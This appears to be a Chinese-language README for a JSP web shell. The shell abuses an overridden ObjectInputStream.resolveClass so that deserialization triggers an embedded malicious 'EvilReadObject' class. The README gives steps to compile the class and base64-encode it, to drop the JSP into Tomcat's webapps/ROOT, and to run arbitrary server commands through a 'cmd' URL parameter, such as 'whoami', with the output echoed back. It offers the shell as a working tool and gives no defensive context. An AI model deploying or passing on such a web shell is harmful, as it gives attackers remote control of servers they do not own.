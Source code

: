 ### 重写ObjectInputStream.resolveClass实现反序列化readObject触发的JSP WebShell

编译字节码:
```
javac EvilReadObject.java

cat EvilReadObject.class|base64
```

使用：
```
ps:若要修改字节码逻辑，修改后按照上面编译字节码的方式得到base64字节码替换jsp文件中的base64字节码

1.把jsp文件放到能被解析的服务器目录，例：tomcat的webapps/ROOT

2.在浏览器访问12.jsp，并使用参数cmd传入需要远程执行的命令，例：http://127.0.0.1:8080/12.jsp?cmd=whoami

3.服务器将会执行相应的shell命令，最后回显
```